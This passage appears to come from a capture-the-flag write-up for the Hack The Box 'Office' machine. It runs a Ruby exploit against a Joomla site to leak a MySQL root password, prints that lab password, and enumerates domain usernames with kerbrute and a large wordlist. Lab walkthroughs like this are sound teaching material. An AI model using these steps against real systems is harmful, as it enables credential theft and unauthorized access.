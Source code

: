 Next we can run the exploit with the following parameter. This will give us some interesting information like 

```bash
ruby exploit.rb http://office.htb
```

![Password obtained](/assets/img/Office/Office_03.png)

So now we have access to the root password of the MYSQL service. We weren't able to login to Joomla with these credentials though so we'll need to figure out another way to use this password.

```
H0lOgrams4reTakIng0Ver754!
```

### User enumeration

So we found a password but don't know what account this belongs to yet. Seeing null sessions are not allowed on the  machine i decided to try and guess some usernames using kerbrute and a large wordlist. I ran kerbrute with the biggest username list present within seclists like this:

```bash
./kerbrute_linux_amd64 userenum  -d office.htb --dc 10.129.105.41 /home/kali/share/Share/Tools/general/SecLists/Usernames/xato-net-10-million-usernames.txt --threads 200
```

After letting this run for a while we could find the following usernames to be valid

![Usernames found](/assets/img/Office/Office_04.png)
